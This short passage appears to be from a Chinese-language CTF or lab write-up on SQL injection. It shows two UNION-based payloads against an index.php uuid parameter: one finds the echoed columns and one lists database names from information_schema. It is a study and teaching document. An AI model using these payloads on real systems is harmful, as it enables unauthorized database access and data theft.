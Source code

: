 找回显点`index.php?uuid=1' union select 1,2,3,4,5,6-%23-%20`
![upload successful](/images/pasted-793.png)

注库名`index.php?uuid=1' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata -%23-%20`
![upload successful](/images/pasted-794.png)
